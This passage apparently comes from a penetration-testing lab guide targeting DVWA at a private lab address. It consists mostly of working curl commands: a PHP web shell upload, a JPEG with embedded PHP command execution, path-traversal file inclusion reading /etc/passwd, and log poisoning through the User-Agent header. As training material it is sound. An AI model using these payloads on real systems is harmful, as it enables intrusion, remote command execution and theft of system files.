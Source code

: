 ```bash
<input type="text" name="cmd" placeholder="Enter command">
<input type="submit" value="Execute">
</form>
EOF

# Upload web shell
curl -X POST "http://10.0.2.101/dvwa/vulnerabilities/upload/" \
  -H "Cookie: PHPSESSID=abc123; security=low" \
  -F "uploaded=@/tmp/shell.php" \
  -F "Upload=Upload"

# Execute commands via web shell
curl "http://10.0.2.101/dvwa/hackable/uploads/shell.php?cmd=whoami" \
  -H "Cookie: PHPSESSID=abc123; security=low"

curl "http://10.0.2.101/dvwa/hackable/uploads/shell.php?cmd=cat /etc/passwd" \
  -H "Cookie: PHPSESSID=abc123; security=low"
```

#### Image File with Embedded PHP
```bash
# Create malicious image file
echo -e '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x01\x00H\x00H\x00\x00\xFF\xDB\x00C\x00\x08\x06\x06\x07\x06\x05\x08\x07\x07\x07\t\t\x08\n\x0C\x14\r\x0C\x0B\x0B\x0C\x19\x12\x13\x0F\x14\x1D\x1A\x1F\x1E\x1D\x1A\x1C\x1C $.\x27 ",#\x1C\x1C(7),01444\x1F\'9=82<.342\xFF\xC0\x00\x11\x08\x00\x01\x00\x01\x01\x01\x11\x00\x02\x11\x01\x03\x11\x01\xFF\xC4\x00\x14\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xFF\xC4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x0C\x03\x01\x00\x02\x11\x03\x11\x00\x3F\x00\xAA\xFF\xD9<?php system($_GET["cmd"]); ?>' > /tmp/malicious.jpg

# Upload malicious image
curl -X POST "http://10.0.2.101/dvwa/vulnerabilities/upload/" \
  -H "Cookie: PHPSESSID=abc123; security=low" \
  -F "uploaded=@/tmp/malicious.jpg" \
  -F "Upload=Upload"
```

### Phase 5: Directory Traversal and LFI (30 minutes)

#### Local File Inclusion
```bash
# Basic LFI
curl "http://10.0.2.101/dvwa/vulnerabilities/fi/?page=../../../etc/passwd" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# LFI with null byte (PHP < 5.3)
curl "http://10.0.2.101/dvwa/vulnerabilities/fi/?page=../../../etc/passwd%00" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# LFI to access log files
curl "http://10.0.2.101/dvwa/vulnerabilities/fi/?page=../../../var/log/apache2/access.log" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# Log poisoning via User-Agent
curl "http://10.0.2.101/" \
  -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# Execute commands via log poisoning
curl "http://10.0.2.101/dvwa/vulnerabilities/fi/?page=../../../var/log/apache2/access.log&cmd=whoami" \
  -H "Cookie: PHPSESSID=abc123; security=low"
```
